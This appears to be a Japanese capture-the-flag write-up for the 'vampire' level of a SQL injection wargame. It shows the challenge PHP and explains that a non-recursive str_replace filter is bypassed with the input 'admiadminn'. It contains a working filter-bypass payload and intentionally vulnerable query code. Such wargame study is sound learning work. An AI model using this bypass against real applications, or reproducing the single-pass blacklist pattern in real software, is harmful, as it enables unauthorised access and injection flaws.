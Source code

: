 # vampire

## answer

```
https://los.eagle-jump.org/vampire_0538b0259b6680c1ca4631a388177ed4.php?id=admiadminn
```

## problem

```
query : select id from prob_vampire where id=''

<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/\'/i', $_GET[id])) exit("No Hack ~_~"); 
  $_GET[id] = str_replace("admin","",$_GET[id]); 
  $query = "select id from prob_vampire where id='{$_GET[id]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id'] == 'admin') solve("vampire"); 
  highlight_file(__FILE__); 
?>
```

## memo

試しに、

```
https://los.eagle-jump.org/vampire_0538b0259b6680c1ca4631a388177ed4.php?id=1
```

とすると

```
query : select id from prob_vampire where id='1'
```

となった。

コードを読んでいく。

```
$_GET[id] = str_replace("admin","",$_GET[id]); 
```

adminという文字列がサニタイズされている。

しかし、str_resplaceは再帰的には置き換えないため、こんな感じ？

```
https://los.eagle-jump.org/vampire_0538b0259b6680c1ca4631a388177ed4.php?id=admiadminn
```

```
query : select id from prob_vampire where id='admin'
```

とれた。

## references

- [preg_match | php manual](https://www.php.net/manual/ja/function.preg-match.php)

- [mysql_fetch_array | php manual](https://www.php.net/manual/ja/function.mysql-fetch-array.php)

- [mysql_query | php manual](https://www.php.net/manual/ja/function.mysql-query.php)

- [str_replace | php manual](https://www.php.net/manual/ja/function.str-replace.php)

- [highlight_file | php manual](https://www.php.net/manual/ja/function.highlight-file.php)